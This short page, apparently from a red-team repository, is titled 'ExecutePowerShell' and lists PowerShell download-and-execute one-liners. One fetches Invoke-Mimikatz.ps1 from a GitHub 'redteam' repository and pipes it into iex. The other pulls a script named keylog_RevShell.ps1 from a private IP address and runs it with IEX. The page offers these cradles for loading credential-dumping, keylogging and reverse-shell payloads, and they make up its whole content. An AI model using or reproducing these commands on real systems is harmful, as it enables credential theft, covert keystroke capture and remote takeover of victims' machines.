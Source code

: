 # ExecutePowerShell
Download &amp; Execute PowerShell Scripts


. { iwr -useb https://raw.githubusercontent.com/d0nkeys/redteam/master/credentials/Invoke-Mimikatz.ps1 } | iex


powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://172.20.35.55/keylog_RevShell.ps1')"
